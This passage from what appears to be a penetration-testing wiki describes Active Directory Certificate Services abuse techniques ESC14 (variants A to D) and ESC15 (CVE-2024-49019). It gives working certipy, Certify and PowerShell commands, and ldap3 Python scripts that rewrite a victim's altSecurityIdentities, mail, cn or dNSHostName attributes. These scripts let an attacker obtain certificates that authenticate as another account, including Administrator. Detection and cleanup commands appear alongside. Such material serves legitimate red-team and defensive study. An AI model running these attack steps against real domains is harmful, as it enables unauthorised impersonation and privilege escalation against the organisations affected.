> * if the template has the value `CT_FLAG_SUBJECT_ALT_REQUIRE_UPN` or `CT_FLAG_SUBJECT_ALT_REQUIRE_SPN` in the `msPKI-Certificate-Name-Flag` attribute, then:
>  * The `UseSubjectAltName` registry key on the DC must be set to `0`
>  * authentication can only be performed via PKINIT (Kerberos)
> * if the template indicates `CT_FLAG_SUBJECT_ALT_REQUIRE_DNS` or `CT_FLAG_SUBJECT_ALT_REQUIRE_DOMAIN_DNS` in the `msPKI-Certificate-Name-Flag` attribute:
>  * the victim must be a machine
>  * authentication can only be performed via PKINIT (Kerberos)
> * if the template indicates `CT_FLAG_SUBJECT_ALT_REQUIRE_EMAIL` or `CT_FLAG_SUBJECT_REQUIRE_EMAIL` in the `msPKI-Certificate-Name-Flag` attribute, one of the following prerequisites must be validated:
>  * the certificate template uses version `1` of the scheme
>  * the victim has his `mail` attribute configured
>  * the attacker has write access to the victim's `mail` attribute

Sufficient DACL to write `altSecurityIdentities` attributes can be detected like this:

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s dacledit.py (Python).

```bash
dacledit.py -action 'read' -principal 'controlled_object' -target 'target_object' 'domain'/'user':'password'
```

It is also possible to view the necessary DACL in BloodHound.


=== Windows

From Windows systems, this can be done with [Get-WriteAltSecIDACEs.ps1](https://github.com/JonasBK/Powershell/blob/master/Get-WriteAltSecIDACEs.ps1) (PowerShell).

```powershell
# Get the ACEs for a single object based on DistinguishedName
Get-WriteAltSecIDACEs -DistinguishedName "dc=domain,dc=local"

# Get ACEs of all AD objects under domain root by piping them into Get-WriteAltSecIDACEs
Get-ADObject -Filter * -SearchBase "dc=domain,dc=local" | Get-WriteAltSecIDACEs
```

It is also possible to view the necessary DACL in BloodHound.

:::


Detection of weak explicit mapping can be done like this :

::: tabs

=== UNIX-like

From UNIX-like systems, with the [GetWeakExplicitMappings.py](https://github.com/3C4D/GetWeakExplicitMappings/blob/main/GetWeakExplicitMappings.py) script (Python).

```bash
python3 GetWeakExplicitMappings.py -dc-host $DC_HOST -u $USERNAME -p $PASSWORD -domain $DOMAIN
```

=== Windows

From a Windows machine, with the [Get-AltSecIDMapping.ps1](https://github.com/JonasBK/Powershell/blob/master/Get-AltSecIDMapping.ps1) script (PowerShell).

```powershell
Get-AltSecIDMapping -SearchBase "CN=Users,DC=domain,DC=local"
```

:::

#### (ESC14 A) Write access on altSecurityIdentities

The attacker has write access to the `altSecurityIdentities` attribute of the target. He can enrol on a certificate as the victim and create an explicit mapping for the target by modifying its `altSecurityIdentities` attribute and pointing it to the obtained certificate. The certificate can then be used to authenticate as the target.

Write rights to `altSecurityIdentities` can be obtained via the following [DACL](../dacl/):

- Write property `altSecurityIdentities`
- Write property `Public-Information`
- Write property (all)
- `WriteDACL`
- `WriteOwner`
- `GenericWrite`
- `GenericAll`
- Owner

For PKINIT authentication, no additional requirements are necessary. For Schannel authentication, the `CertificateMappingMethods` key must be set to `0x8` (default value).

::: tabs

=== UNIX-like

From UNIX-like systems, with [certipy](https://github.com/ly4k/Certipy), it is possible to enroll on a certificate template.

```bash
certipy req -u $TARGET@$DOMAIN -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP
```

Then, using [certipy](https://github.com/ly4k/Certipy), we can get the certificate out of the pfx file.

```bash
certipy cert -pfx target.pfx -nokey -out "target.crt"
```

[openssl](https://github.com/openssl/openssl) can be used to extract the "Issuer" and the "Serial Number" value out of the certificate.

```bash
openssl x509 -in target.crt -noout -text
```

With the following python script (inspired from [this script](https://github.com/JonasBK/Powershell/blob/master/Get-X509IssuerSerialNumberFormat.ps1)), we can use the previously dumped values to craft a X509IssuerSerialNumber mapping string.

```python
issuer = ",".join("<TARGET_DN>".split(",")[::-1])
serial = "".join("<SERIAL_NUMBER>".split(":")[::-1])

print("X509:<I>"+issuer+"<SR>"+serial)
```

the string can then be added to `altSecurityIdentities` target's attribute with the following python script.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "<TARGET_DN>"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
    victim_dn,
    {'altSecurityIdentities':[(ldap3.MODIFY_ADD, '<X509IssuerSerialNumber>')]}
)

conn.unbind()
```

The certificate requested at the begining can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

The certificate mapping written can be cleaned with the following python script.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "<TARGET_DN>"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
    victim_dn,
    {'altSecurityIdentities':[(ldap3.MODIFY_DELETE, '<X509IssuerSerialNumber>')]}
)

conn.unbind()
```

=== Windows

From Windows systems, [Certify](https://github.com/GhostPack/Certify) (C#) can be used to enroll on a certificate template.

```powershell
Certify.exe request /ca:domain\ca /template:Machine /machine
```

Then, the `certutil` utility permits to merge the PFX and dump the serial number and the issuer DN from it.

```powershell
certutil -MergePFX .\cert-a.pem .\cert-a.pfx
certutil -Dump -v .\cert-a.pfx
```

Following this, the [Get-X509IssuerSerialNumberFormat](https://github.com/JonasBK/Powershell/blob/master/Get-X509IssuerSerialNumberFormat.ps1) script (PowerShell) allows to craft a X509IssuerSerialNumber mapping string well formated.

```powershell
Get-X509IssuerSerialNumberFormat -SerialNumber $SERIAL_NUMBER -IssuerDistinguishedName $ISSUER_DN
```

Finally, the crafted string can be added to `altSecurityIdentities` target's attribute with the [Add-AltSecIDMapping](https://github.com/JonasBK/Powershell/blob/master/Add-AltSecIDMapping.ps1) script (PowerShell).

```powershell
Add-AltSecIDMapping -DistinguishedName $TARGET_DN -MappingString $MAPPING_STRING
Get-AltSecIDMapping -DistinguishedName $TARGET_DN
```

The certificate requested at the begining can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

The certificate mapping written can be cleaned with [Remove-AltSecIDMapping](https://github.com/JonasBK/Powershell/blob/master/Remove-AltSecIDMapping.ps1) (PowerShell).

```powershell
Remove-AltSecIDMapping -DistinguishedName $TARGET_DN -MappingString $MAPPING_STRING
```

:::


#### (ESC14 B) Target with X509RFC822 (email)

The target has an explicit weak mapping of type `X509RFC822`. The attacker can modify the `mail` attribute of the victim so that it matches the `X509RFC822` mapping of the target. It is then possible to enroll on the certificate model with the victim, and use the certificate obtained to authenticate as the target.

For this attack, a few additional prerequisites are necessary:

::: warning
> [!WARNING]
> * The target is a user account
> * The target already has at least one `X509RFC822` mapping in `altSecurityIdentities`
> * The attacker has write access to the `mail` attribute of the victim
> * The certificate template shows `CT_FLAG_NO_SECURITY_EXTENSION` in `msPKI-Enrollment-Flag` and shows the attribute `CT_FLAG_SUBJECT_ALT_REQUIRE_EMAIL` in `msPKI-Certificate-Name-Flag`
> * For PKINIT, `StrongCertificateBindingEnforcement` is set to `0` or `1`
> * For Schannel, `CertificateMappingMethods` indicates `0x8` and `StrongCertificateBindingEnforcement` is set to `0` or `1`
:::

::: tabs

=== UNIX-like

From UNIX-like systems, the `mail` attribute of the victim can be overwritten to match the `X509RFC822` mapping of the target using the following python script.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "<VICTIM_DN>"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
    victim_dn,
    {'mail':[(ldap3.MODIFY_REPLACE, '<TARGET_EMAIL>')]}
)

conn.unbind()
```

With [certipy](https://github.com/ly4k/Certipy), it is then possible to enroll on a certificate template using the victim credentials.

```bash
certipy req -u $VICTIM@$DOMAIN -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

=== Windows

From Windows systems, with PowerShell the `mail` attribute of the victim must be overwritten to match the email indicates in the `X509RFC822` mapping of the target.

```powershell
$victim = [ADSI]"LDAP://$VICTIM_DN"
$victim.Properties["mail"].Value = $TARGET_EMAIL
$victim.CommitChanges()
```

Then, [Certify](https://github.com/GhostPack/Certify) (C#) can be used to enroll on a certificate template from the victim session.

```powershell
Certify.exe request /ca:domain\ca /template:$TEMPLATE_MAIL
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

:::


#### (ESC14 C) Target with X509IssuerSubject

The target has an explicit weak mapping of type `X509IssuerSubject`. The attacker can modify the `cn` or `dNSHostName` attribute of the victim to match the subject of the `X509IssuerSubject` mapping of the target. It is then possible to enroll on the certificate template with the victim, and use the resulting certificate to authenticate as the target.

For this attack, _some_ additional prerequisites are necessary:

> [!WARNING]
> * The target already has at least one `X509IssuerSubject` mapping in `altSecurityIdentities`
> * If the victim is a user:
 > * The attacker can modify the `cn` and `name` attributes of the victim (to change the `cn`, the `name` must match)
 > * If the target is a user and the `X509IssuerSubject` mapping has the current value of the `cn` attribute of the target as its identifier, the victim and the target cannot be in the same container (the DC will not allow the `cn` of the victim to be set according to the `cn` of the target if they are in the same container, as this would mean that they have the same `distinguishedName`)
> * If the victim is a machine: the attacker has write access to the `dNSHostName` attribute
> * The certificate template indicates `CT_FLAG_NO_SECURITY_EXTENSION` in `msPKI-Enrollment-Flag` (except for Schannel authentication with the DC having the `CertificateMappingMethods` key set to `0x1`)
> * The template has one of the following flags in `msPKI-Certificate-Name-Flag`: `CT_FLAG_SUBJECT_REQUIRE_COMMON_NAME` or `CT_FLAG_SUBJECT_REQUIRE_DNS_AS_CN`
> * The certificate does not have any of the following flags: `CT_FLAG_SUBJECT_REQUIRE_DIRECTORY_PATH` and `CT_FLAG_SUBJECT_REQUIRE_EMAIL`
> * The enterprise PKI is the issuer referenced by `IssuerName` in the `X509IssuerSubject` mapping of the target
> * For PKINIT, `StrongCertificateBindingEnforcement` is set to `0` or `1`
> * For Schannel, `CertificateMappingMethods` indicates `0x8` and `StrongCertificateBindingEnforcement` is set to `0` or `1`, or `CertificateMappingMethods` is set to `0x1`

In this example, the target has the explicit mapping value `X509:<I>DC=local,DC=domain,CN=$TARGET<S>CN=$TARGET.domain.local`. One must change the `cn` of the victim (in this case a user) to equal `$TARGET.domain.local`. By renaming the user, the DC will automatically change the `cn` and `name`.

::: tabs

=== UNIX-like

From UNIX-like systems, the `cn` attribute of the victim can be overwritten with the following python script to be equal to `<TARGET>.<DOMAIN>`.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "CN=<VICTIM>,CN=Computers,DC=domain,DC=local"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify_dn(
        victim_dn,
        'CN=<TARGET>.<DOMAIN>'
)

conn.unbind()
```

With [certipy](https://github.com/ly4k/Certipy), it is then possible to enroll on a certificate template using the victim credentials

```bash
certipy req -u $VICTIM@$DOMAIN -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

=== Windows

From Windows systems, with PowerShell the `cn` attribute of the victim must be overwritten to be equal to `$TARGET.domain.local`.

```powershell
$victim = [ADSI]"LDAP://CN=$VICTIM,CN=Users,DC=domain,DC=local"
$victim.Rename("CN=$TARGET.domain.local")
Get-ADUser $VICTIM
```

Then, [Certify](https://github.com/GhostPack/Certify) (C#) can be used to enroll on a certificate template from the victim session.

```powershell
Certify.exe request /ca:domain\ca /template:$TEMPLATE
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

:::


#### (ESC14 D) Target with X509SubjectOnly

The target has an explicit weak mapping of type `X509SubjectOnly`. The attacker can modify the `cn` or `dNSHostName` attribute of the victim to match the subject of the `X509SubjectOnly` mapping of the target. It is then possible to enroll on the certificate template with the victim, and use the resulting certificate to authenticate as the target.

For this attack, _some_ additional prerequisites are necessary:

> [!WARNING]
> * The target already has at least one `X509SubjectOnly` mapping in `altSecurityIdentities`
> * If the victim is a user:
 > * The attacker can modify the `cn` and `name` attributes of the victim (to change the `cn`, the `name` must match)
 > * If the target is a user and the `X509SubjectOnly` mapping has the current value of the `cn` attribute of the target as its identifier, the victim and the target cannot be in the same container (the DC will not allow the `cn` of the victim to be set according to the `cn` of the target if they are in the same container, as this would mean that they have the same `distinguishedName`)
> * If the victim is a machine: the attacker has write access to the `dNSHostName` attribute
> * The certificate template indicates `CT_FLAG_NO_SECURITY_EXTENSION` in `msPKI-Enrollment-Flag`
> * The template has one of the following flags in `msPKI-Certificate-Name-Flag`: `CT_FLAG_SUBJECT_REQUIRE_COMMON_NAME` or `CT_FLAG_SUBJECT_REQUIRE_DNS_AS_CN`
> * The certificate does not have any of the following flags: `CT_FLAG_SUBJECT_REQUIRE_DIRECTORY_PATH` and `CT_FLAG_SUBJECT_REQUIRE_EMAIL`
> * For PKINIT, `StrongCertificateBindingEnforcement` is set to `0` or `1`
> * For Schannel, `CertificateMappingMethods` indicates `0x8` and `StrongCertificateBindingEnforcement` is set to `0` or `1`

In this example, the target has the explicit mapping value `X509:<S>CN=TARGET`. One must change the `dNSHostName` of the victim (in this case a computer) to equal `$TARGET`.

::: tabs

=== UNIX-like

From UNIX-like systems, the `dNSHostName` attribute of the victim can be overwritten with the following python script to be equal to `<TARGET>`.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "CN=<VICTIM>,CN=Computers,DC=domain,DC=local"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
    victim_dn,
    {'dNSHostName':[(ldap3.MODIFY_REPLACE, '<TARGET>')]}
)

conn.unbind()
```

With [certipy](https://github.com/ly4k/Certipy), it is then possible to enroll on a certificate template using the victim credentials

```bash
certipy req -u $VICTIM@$DOMAIN -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.


=== Windows

From Windows systems, with PowerShell the `dNSHostName` attribute of the victim must be overwritten to be equal to `$TARGET`.

```powershell
$victim = [ADSI]"LDAP://CN=$VICTIM,CN=Computers,DC=domain,DC=local"
$victim.Properties["dNSHostName"].Value = $TARGET
$victim.CommitChanges()
```

Then, [Certify](https://github.com/GhostPack/Certify) (C#) can be used to enroll on a certificate template from the victim session.

```powershell
Certify.exe request /ca:domain\ca /template:$TEMPLATE /machine
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

:::

### (ESC15 - CVE-2024-49019) Arbitrary application policy

> [!NOTE] NOTE
> This privilege escalation has been marked as [CVE-2024-49019](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49019) by Microsoft, and will therefore no longer be exploitable on patched systems.

By default, the X509 standard uses EKUs to indicate the possible uses of a certificate. Under Windows, a field called `Application Policy` is added to certificates, and this does the same thing as EKUs, but with a few more options. If both EKUs and *application policies* are present in a certificate, the latter takes precedence.

It turns out that if a certificate template uses **version 1** of the certificate templates, authorises the SAN specification, and if it is possible to enrol on it, then it is possible to request a certificate by specifying an arbitrary user and requesting an arbitrary *application policy*.

> [!TIP] TIP
> Note, however, that specifying "Client Authentication" in *application policy* will only allow **SChannel authentication and not PKINIT**. On the other hand, by specifying "Certificate Request Agent" (`1.3.6.1.4.1.311.20.2.1`), the certificate can be used as an [ESC3](certificate-templates.md#certificate-agent-eku-esc3).

You can see the ESC15 as an [ESC2](certificate-templates.md#any-purpose-eku-esc2) with more steps.

::: tabs

=== UNIX-like

From UNIX-like systems, [this pull request on Certipy](https://github.com/ly4k/Certipy/pull/228) (Python) can be used to enumerate for, and conduct, the ESC15 scenario. 

```bash
# Request a certificate with "Certificate Request Agent" application policy
certipy req -u $USER@$DOMAIN --application-policies "1.3.6.1.4.1.311.20.2.1" -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP

# Use the certificate in a ESC3 scenario to ask for a new certificate on behalf of another user
certipy req -u $USER@$DOMAIN -on-behalf-of $DOMAIN\\Administrator -template User -ca $CA_NAME -pfx cert.pfx -dc-ip $DC_IP

# Authenticate with the last certificate
certipy auth -pfx administrator.pfx -dc-ip $DC_ADDR
```

=== Windows

_At the time of writing, no solution exists to perform this attack from a Windows machine._

:::

## Resources

[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

[https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6](https://research.ifcr.dk/certipy-2-0-bloodhound-new-escalations-shadow-credentials-golden-certificates-and-more-34d1c26f0dc6)

[https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)

[https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)

[https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9)

[https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc)